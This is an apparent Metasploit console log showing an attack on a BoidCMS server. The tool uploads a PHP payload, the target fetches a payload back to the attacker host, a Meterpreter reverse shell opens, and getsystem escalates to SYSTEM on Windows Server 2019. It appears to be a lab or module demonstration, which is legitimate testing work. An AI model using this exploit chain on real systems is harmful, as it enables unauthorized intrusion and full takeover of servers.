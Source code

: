 ```
[!] The service is running, but could not be validated. Detected BoidCMS, but the version is unknown.
[*] Getting Token
[*] Logging into CMS
[*] Uploading PHP file eI1lHLx.php
[*] launching Payload
[*] Client 10.5.134.102 requested /h8r3u5VU3v-qeqUW3_anLw
[*] Sending payload to 10.5.134.102 (curl/7.55.1)
[+] Deleted eI1lHLx.php
[*] Meterpreter session 4 opened (10.5.135.201:4444 -> 10.5.134.102:50085) at 2024-02-16 16:41:48 -0600

meterpreter > sysinfo
Computer        : WIN-2E6BPFGP9F7
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: WIN-2E6BPFGP9F7\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 

```
